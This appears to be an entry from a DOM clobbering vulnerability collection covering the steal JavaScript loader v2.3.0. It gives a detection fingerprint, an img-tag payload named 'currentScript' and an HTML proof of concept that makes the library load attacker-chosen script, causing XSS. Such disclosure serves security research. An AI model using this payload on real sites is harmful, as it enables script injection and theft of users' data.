 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk
+ TheThing: None

### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!doctype html>
<html>
  <body>
    <image name="currentScript" src="http://localhost:8000/"></image>
    <script src="./node_modules/steal/steal.js" main></script>
  </body>
</html>
```
